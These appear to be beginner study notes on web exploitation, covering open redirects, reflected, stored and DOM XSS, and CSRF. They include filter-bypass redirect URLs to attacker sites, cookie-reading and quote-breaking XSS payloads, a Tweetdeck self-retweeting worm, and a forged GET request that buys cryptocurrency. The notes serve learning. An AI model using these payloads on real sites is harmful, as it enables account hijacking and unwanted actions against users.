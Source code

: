 # Intro to Web Exploitation

## Open redirect

Takes user input to redirect the client from its page to another, usually
controlled by the attacker. Low impact unless used with other vulnerabilities
to escalate. Sometimes the application has security measures to prevent user
from inputting disallowed websites, but bypass is possible; look below.

```
// Allowed
https://example.com/login/?nextPage=https://google.com

// Not allowed
https://example.com/login/?nextPage=https://attackerSite.com

// Allowed
https://example.com/login?nextPage=https://evilsite.com/?google.com
```

## Open redirect lab

This redirects to link after '@'
```
https://google.com@yahoo.com
```

## XSS

Used to execute arbitrary code on client's browser, uses:
1. Phishing
1. Dumping data
1. Account hijack

Attacker injects malicious code onto the website, clients click on link or
visit the website url then the malicious script is executed on their browser.
Executed malicious code is static and predefined. Payload had privilege that
the user has, if admin account then even higher impact.

Impact:
1. XSS medium
1. Stored XSS high-\>critical

* Reflected XSS: Payload injected from user clicking link
* Stored XSS: Payload is stored server side, user visits the link and payload
  is pulled from db
* DOM XSS: Javascript reflected from user source to function

Reflected Example:
```
example.com/page?name=ASH	 ->	Hello, ASH (Normal)
example.com/page?name=<u>ASH</u> ->	Hello, <u>ASH</u> (No XSS)
example.com/page?name=<u>ASH</u> ->	Hello, __ASH__ (Possible XSS)
```

Stored Example:
```HTML
// Tweetdeck
<script
class="xss">$('.xss').parents().eq(1).find('a').
eq(1).click();$('[data-
action=retweet]').click();alert('XSS in
Tweetdeck')</script>
```

DOM Example:
```
https://example.com/#send-transaction<div/class="header__wrap"><a/href
=javascript:alert(0)><h1>pwn3d</h1></a><img/src=//unskid.me/dist/jesus.gif>
</div>
```

## XSS lab

Simple test for XSS:
```
<u>test</u>
<script>alert(document.cookie)</script>
```

More complex example: (If inside tag 'input' for example)
```
"</input><script>alert(1)</script>
```

Another example: Output as a title or somewhere else
```
</title><script>alert()</script>
```

Interesting example: If input is sanitized somewhat
```
// Original code: var name = 'asd';
';+alert(1);//commentOut
```

## CSRF

Force client-side action without them user knowing that somethign happened.
There is no data being lost, but only an action being done. Example below 
shows how an attacker can submit a post request to /change-email which will
change the users email without them knowing.

Example: Post request
```HTML
<form action="change-email", method="POST">
	<label for="email">new email:</label>
	<input type="email" name="new_email">
	<button type="submit"submit</button>>
</form>
```

Example: Get request
```
<img/src="http://crypto.com/buy.php?wallet=something&amount=100&type=btc">
```

Get request above is similar, user visits a link with that in the source code
then action will happen without them knowing. Some websites have csrf tokens
for security but you may be able to remove token, and attack due to that token
not actually being used for anything. Another mistake is that websites may have
tokens but all users but you can copy a token from one user to another making it
seem like you are the user.
